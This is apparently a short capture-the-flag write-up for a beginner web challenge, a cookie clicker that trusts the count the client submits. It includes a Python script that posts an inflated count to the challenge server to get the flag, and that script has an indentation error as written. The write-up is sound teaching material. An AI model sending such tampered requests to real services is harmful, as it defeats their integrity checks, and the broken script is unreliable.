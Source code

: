 # Beginner: Off-Brand Cookie Clicker 
The challenge had a website provided to us with a cookie clicker in which increments the counter everytime we click.

Upon closer examination & inspection of the html code for the webpage, we could see some embedded javascript in the html code, hinting at a possible vulnerability we could exploit there.

![imagecook](https://github.com/didumfernando/CTF-writeups/assets/118650079/ad5b804d-f177-46c9-bc89-dddc1b904c03)

As such we could manually send a request with the data as 10000000 since that will be the condition to return us the flag successfully.
```
# python library to handle requests
import requests

# data being sent over 
data = {'count': 10000000}

# POST request
req = requests.post('http://betta.utctf.live:8138/click', data=data)

# check for request's success
if req.status_code == 200:
'''getting the flag'''
    flag = req.json()['flag']
    print("Flag received: %s" % flag)
```

